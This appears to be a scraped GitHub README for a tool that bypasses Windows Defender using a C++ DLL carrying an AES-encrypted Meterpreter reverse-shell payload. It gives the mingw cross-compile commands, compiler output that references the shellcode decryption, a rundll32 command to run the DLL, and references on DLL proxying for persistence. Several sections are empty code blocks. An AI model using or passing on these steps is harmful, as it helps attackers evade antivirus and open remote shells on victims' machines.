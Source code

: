 - 
- [References](#references)

-------------------------------------------

## [Compile C++ Code]
https://raw.githubusercontent.com/gemini-security/Bypass-Windows-Defender-with-CPP-.DLL-Payload-File---Meterpreter-Reverse-Shell/main/template.cpp
```sh
x86_64-w64-mingw32-gcc -shared -o helloworld.dll template.cpp
x86_64-w64-mingw32-gcc -fpermissive -shared -o helloworld.dll template.cpp
```

## 
```sh
$ x86_64-w64-mingw32-gcc -shared -o helloworld.dll template.cpp 
template.cpp: In function ‘BOOL DllRegisterServer()’:
template.cpp:68:52: error: invalid conversion from ‘unsigned char*’ to ‘char*’ [-fpermissive]
   68 |         DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
      |                                                    ^~~~~~
      |                                                    |
      |                                                    unsigned char*
template.cpp:7:60: note:   initializing argument 3 of ‘void DecryptAES(char*, DWORD, char*, DWORD)’
    7 | void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
      |                                                      ~~~~~~^~~
$ l
total 4.0K
-rw-r--r-- 1 kali kali 2.6K Nov 29 13:30 template.cpp
```

## 
```sh
$ x86_64-w64-mingw32-gcc -fpermissive -shared -o helloworld.dll template.cpp
template.cpp: In function ‘BOOL DllRegisterServer()’:
template.cpp:68:52: warning: invalid conversion from ‘unsigned char*’ to ‘char*’ [-fpermissive]
   68 |         DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
      |                                                    ^~~~~~
      |                                                    |
      |                                                    unsigned char*
template.cpp:7:60: note:   initializing argument 3 of ‘void DecryptAES(char*, DWORD, char*, DWORD)’
    7 | void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
      |                                                      ~~~~~~^~~

$ l
total 224K
-rwxr-xr-x 1 kali kali 219K Nov 29 13:36 helloworld.dll
-rw-r--r-- 1 kali kali 2.6K Nov 29 13:30 template.cpp
```

## Execute DLL
Function `HelloWorld` case sensitive
```sh
# rundll32.exe <fileName> <exportedFunction>
rundll32.exe helloworld.dll, HelloWorld
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# [References](#references-1)

https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence

https://medium.com/@lsecqt/weaponizing-dll-hijacking-via-dll-proxying-3983a8249de0